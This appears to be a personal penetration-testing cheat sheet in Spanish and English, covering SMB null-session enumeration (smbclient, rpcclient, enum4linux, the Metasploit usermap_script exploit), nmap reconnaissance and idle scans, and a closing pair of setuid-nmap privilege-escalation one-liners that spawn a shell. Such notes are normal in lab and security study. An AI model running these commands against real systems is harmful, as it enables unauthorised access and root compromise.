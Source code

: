 jueves, 7 de mayo de 2020

14:43

Windows: Net Use \\\&lt;ip\&gt;\IPC$ &quot;&quot; /u: &quot;&quot;



Linux: smbclient \\\\\&lt;ip\&gt;\\IPC\$ &quot;&quot; -U &quot;&quot;

smbclient \\\\\&lt;ip\&gt; -N (null session)

rpcclient -U &quot;&quot; IP\_ADDRESS

para enumeración The most interesting are &#39;enumdomusers&#39;, &#39;netshareenum&#39;, &#39;netshareenumall&#39;



mount -t cifs //10.10.10.40/Users /mnt/\&lt;dircreado\&gt; -o username=null,password=nul,domain=WORKGROUP,rw

En msf hay un exploit que permite tomar el control root. exploit/multi/samba/usermap\_script



we can use the excellent tool &#39;enum4linux&#39;

This vulnerability can be mitigated by setting the DWORD value &#39;RestrictAnonymous&#39; to 1 in HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Control\LSA



# NMAP - Como mapear la red (Reconocimiento)

jueves, 7 de mayo de 2020

14:43

nmap -sn \&lt;rangoIP\&gt;

para ver equipos prendidos ((se puede reemplazar por Netdiscover))

nmap -n -vvv -sS -Pn --min-rate 5000 \&lt;ip\&gt; -oN allports



para recorrer puertos abiertos de forma rápida.

nmap -A \&lt;ip\&gt;

para que entregue todos lo datos posibles del target. Se puede agregar -p \&lt;port\&gt; si interesa sólo un puerto.

nmap -v -sI \&lt;ipZombie\&gt;:\&lt;PuertoAbierto\&gt; \&lt;IPaEscanear\&gt;

Cuando se tiene el control de un zombie se puede ocupar para realizar nmap.

También se pueden usar equipos vulnerables buscándolo los incrementales o brokenlittleindian con el auxiliar de metasploit: use auxiliary/scanner/id/ipidseq

nmap --script \&lt;(echo &#39;os.execute(&quot;/bin/sh&quot;)&#39;) # setuid nmap privesc.

Older version? try nmap --interactive
